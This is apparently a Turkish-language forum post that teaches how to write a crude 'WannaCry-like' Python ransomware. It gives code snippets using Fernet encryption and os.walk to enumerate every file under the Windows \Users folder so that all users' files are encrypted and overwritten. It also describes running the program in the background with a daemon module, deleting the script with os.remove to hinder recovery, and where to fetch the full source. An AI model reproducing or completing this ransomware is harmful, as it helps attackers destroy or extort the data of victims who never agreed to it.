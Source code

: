 Selamlar



Bu yazıda WannaCry’ın merdiven altı Python fidye yazılımımızı yazacağız .



Kodlara gelmeden evvel nasıl olacağını açıklayalım



os modülü ile bütün alt klasörleri listele
"rb" ile dosyayı aç
cryptography modülü ile içeriği şifrele (kendi şifreleme methodunuzu da kullanabilirsiniz
aynı dosyayı wb ile aç ve şifrelenmiş içeriği içine yaz
[QUOTE]Işte bu kadar basit [/QUOTE]

Gelelim şifrelemenin nasıl yapılacağına



[CODE=python]from cryptography.fernet import Fernet[/CODE]



İle modülümüzü dahil edelim .



Şimdi anahtar eklememiz gerekiyor ;



[CODE=python]anahtar = Fernet.generate_key()[/CODE]



Şimdi fer’e şifrelememizi aktaralım



[CODE=python]fer = Fernet(anahtar)[/CODE]



fer bizim encrpt ve decpyt yapabileceğimiz değerimiz



>> fer.encrypt("Bu yazı şifrelenecek !".encode())



>> b'gAAAAABeigI2PUz7vW4RlT_9peTEtTSgCUs6yypDfsHOgfyPpnfVYOqI7c='



Bu kadar basit aslında işlemimiz ..





Mantığımızı kavradığımıza göre alt klasörleri listeyelim



[CODE=python]import os



for dosya_konum,eleman,dosya_isim_liste in os.walk("\Users"):



    for dosya_isim in dosya_isim_liste:



print(dosya_konum+dosya_isim)[/CODE]



[ICODE]os.walk() Kendisine verilen değerden itirabaren lat klasörleri listeyen oldukça faydalı bir modül

\Users değerini vermemiz ise Tüm Windowslarda Users’ın olması ve tüm kullanıcıları şifrelemek istememiz[/ICODE]



Aşağıdaki kodu çalıştırıp gerçekten de tüm alt klasörleri listeleyeceğini görebilirsiniz





Yapacağımız herşey aslında bu kadardı



Tekrar geçelim;

[QUOTE]

os.walk ile listele
[/QUOTE]

[QUOTE]

listenen dosyaların hepsini wb ile aç , şifrele yaz
[/QUOTE]

Şimdi gelelim asıl kodlarımıza





Görselde bahsettiğim kütüphaneler dışında “daemon” adlı bir modülü daha fark etmişsinizdir



Bu modül sayesinde python kodlarımızı “arkaplanda” çalıştırabileceğiz. | Sadece Gnu-Linux !



os.remove() ‘ı kullanma sebebimiz ise python’un kapandığını sanan hedef programı baştan açmaya çalışacaktır . Bunu dosyayı silerek hallediyoruz



Kaynak Kodları:

Github | YouTube



Not:

Kodları değiştirmeden doğrudan kendi bilgisayarınızda çalıştırırsanız tüm dosyalarınız kullanılamaz hale gelecektir .



Şifrelenmiş dosyayı açmak için kodların 2 parçasını değiştirmek yeterli olacaktır :



[QUOTE]Satır 40 : key = input("key'inizi girin !").encode()[/QUOTE]

[QUOTE]Satır 55 : with open(dosya,"wb") as yaz : yaz.write(fer.decrypt(oku))[/QUOTE]
